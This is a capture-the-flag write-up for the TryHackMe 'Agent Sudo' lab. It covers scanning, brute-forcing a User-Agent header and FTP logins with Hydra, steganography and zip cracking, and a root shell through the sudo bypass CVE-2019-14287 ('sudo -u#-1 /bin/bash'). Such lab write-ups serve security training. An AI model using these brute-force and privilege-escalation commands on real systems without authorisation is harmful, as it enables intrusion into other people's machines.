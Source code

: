 ```bash
# PLATFORM          . THM
# CTF NAME          . Agent Sudo
# DESCRIPTION       . You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/agentsudoctf
```

```bash
sudo nmap -sSVC -T5 10.10.132.55 -p- -oN agentsudo
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef1f5d04d47795066072ecf058f2cc07 (RSA)
|   256 5e02d19ac4e7430662c19e25848ae7ea (ECDSA)
|_  256 2d005cb9fda8c8d880e3924f8b4f18e2 (ED25519)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- If we navigate to the webserver on port `80`, all we get is 

```
Dear agents,  
  
Use your own **codename** as user-agent to access the site.  
  
From,  
Agent R
```

- This makes me think that we neeed to capture the request in burp suite and change the user-agent to a valid value.

- I've captured the request and sent it to Intruder.

- I've created a payload containing all uppercase letters A-Z and started a `sniper` attack.

```
GET / HTTP/1.1
Host: 10.10.132.55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: §<A-Z>§
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

- All requests besides agent `R` and `C` had the same `status code` and `length` so I've considered those obsolete.

- If we modify the User-Agent to `R`, we get a warning. However, this confirms us that we're on the right track and using the right format. 

```
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
```

- If we switch the user-agent to `C`, we see that burp captures another request

```
GET /agent_C_attention.php 
```

- The page is loaded and here's the content

```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
```

- We get our username, `chris`, along with some indication that the password might be easy to bruteforce.

- Let's try bruteforcing `ftp` first.

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.132.55 ftp
```

```
[21][ftp] host: 10.10.132.55   login: chris   password: {redacted}
```

- After logging in to `ftp`, we're able to find some files.

```bash
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```

```To_agentJ.txt
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

- This reveals that here's a steganography challenge and that the password of `Agent J` is hidden inside one of the pictures. 

- Running `steghide --extract -sf` against `cute-alien.jpg` asks for a passphrase, so I've moved to other checks for now.

- I've installed `binwalk` and used `binwalk -e` against both images. 

```bash

binwalk -e cutie.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

- The `.zip` archive seems to be password protected, so we can make use of `john` to try to crack this.

- First, use `zip2john` to extract the hash from the `.zip` file

```bash
/opt/john/run/zip2john 8702.zip > zip_hash.txt
```

- Then, use `john` to crack the password. I've used the classic `rockyou.txt` file.

```bash
/opt/john/run/john -w=/usr/share/wordlists/rockyou.txt zip_hash.txt
```

>**NOTE**: A **COMPILED** version of `john` is needed ; I had the `jumbo` version installed from the official website / git clone of the `run` directory and it was missing some extensions, including `zip2john`.

- I tried `unziping` the arhive using `unzip -P [password] [filename]`

```
   skipping: To_agentR.txt           need PK compat. v5.1 (can do v4.6)
```

- So I managed to get the file using `7z` instead

```
7z x 8702.zip -p[passowrd]
```

```To_agentR.txt
Agent C,

We need to send the picture to 'Q{redacted}x' as soon as possible!

By,
Agent R
```

- I've tried using `Q{redacted}x` as the passphrase asked when running `steghide --extract -sf cute-alien.jpg`, but it didn't work.

- It looks a bit like `base64` and using `echo "Q{redacted}x" | base64 -d` against the string reveals `A{redacted}1` in ASCII - that's the secret.

```
steghide --extract -sf cute-alien.jpg 
Enter passphrase: 
wrote extracted data to "message.txt".
```

```message.txt
Hi james,

Glad you find this message. Your login password is {redacted}!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

- So we've got ourselves a pair of credentials: `james:{redacted}!`

- `sudo -l` has an interesting output, but let's focus on getting the 1st flag first.

```bash
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

- First flag is located at `/home/james/user_flag.txt` alongside a `jpg` called `Alien_autospy.jpg`. 

- I've transferred the file to my box using `scp`

```bash
scp james@10.10.132.55:/home/james/Alien_autospy.jpg alien_autopsy.jpg
```

- well. a dead alien. now what? I had no clue what to do with this.

- `steghide --extract -sf` asks for a passphase, but I got no clue and I don't think bruteforcing this is the way to go.

- I've checked the hint and it says that we need to google about it.

- Here we go: The incident is called "Roswell Alien Autopsy". 

- Back to our victim box - we need to escalate privileges.

- The CTF is asking for the CVE number we'll use to exploit, so it is basically a hint that we need to find a vulnerability that can be leveraged in this environment.

```bash
james@agent-sudo:~$ cat /etc/lsb-release 

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=18.04
DISTRIB_CODENAME=bionic
DISTRIB_DESCRIPTION="Ubuntu 18.04.3 LTS"
```

```bash
james@agent-sudo:~$ uname -a
Linux agent-sudo 4.15.0-55-generic #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

- I think I spent 2 hours looking for 4.1x Kernel exploits. 

- However, I've checked the `sudo version` using `sudo -V` and I was able to find an exploit that can be leveraged on this box.

```bash
sudo -V

Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

- The exploit can be found here:[CVE-2019-14287](https://nvd.nist.gov/vuln/detail/CVE-2019-14287) and it specifies that in order to bypass `(ALL, !root) /bin/bash`, all we need to do is to run `sudo -u#-1 /bin/bash` instead.

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# whoami
root
```

- This exploit works by using `sudo -u` (-u = specify user UID) with a negative value. Sudo doesn't check to see if the UID exists and it returns 0 when given an invalid value, 0 being the root UID and granting us root permissions instead.

- Last flag is in `/root/root.txt`

